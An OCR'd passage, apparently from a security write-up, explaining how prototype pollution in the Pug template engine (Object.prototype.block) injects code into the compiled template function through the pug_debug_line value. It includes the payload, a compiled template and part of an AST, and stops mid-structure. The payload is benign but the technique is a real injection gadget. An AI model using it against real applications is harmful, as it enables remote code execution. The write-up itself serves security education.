 ```
function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
    var locals_for_with = (locals || {});
    
    (function (user) {
      ;pug_debug_line = 1;
pug_html = pug_html + "\u003Cspan\u003E";
;pug_debug_line = 1;
pug_html = pug_html + "Hello ";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = user) ? "" : pug_interp)) + "console.log('this has been executed!!!!!')";
;pug_debug_line = 1;
pug_html = pug_html + ", thank you for letting us know!\u003C\u002Fspan\u003E";
    }.call(this, "user" in locals_for_with ?
        locals_for_with.user :
        typeof user !== 'undefined' ? user : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
    
Notice that 'console.log('this has been executed!!!!!')' is taken as a string and won't be executed. We need to attack the part of the code that can be potentially executed.

One more Prototype Pollution payload similar to 'Object.prototype.block' is 'Object.prototype.filename' (Refer line number 316 of index.js file in pug-code-gen module to know why this pollution works). Assigning any value to 'Object.prototype.filename' will also show up in the template function code but again, it will be in the form of a string and won't be executed.

We need to target the 'pug_debug_line = 1'. If we replace that value '1' with some of our code, then that will be executed.

How do we do that? By the following payload:
Object.prototype.block = {"type": "Text", "line": "console.log('hello there!')"};

The above line will appear in the 'Code' block of the AST again but check out the function:
visitCode: function(code): more specifically, the line number 786 of index.js file in pug-code-gen module.
We are checking the following condition
if (code.block) {
	...
	this.visit(code.block, code);
	...
}

That visit() method will visit a node in the AST and converts that to JavaScript code that will be added in the template function.
After our pollution payload, the 'Code' block of the AST will be like this:

{
  type: "Block",
  nodes: [
    {
      type: "Tag",
      name: "span",
      selfClosing: false,
      block: {
        type: "Block",
        nodes: [
          {
            type: "Text",
            val: "Hello ",
            line: 1,
            column: 6,
          },
```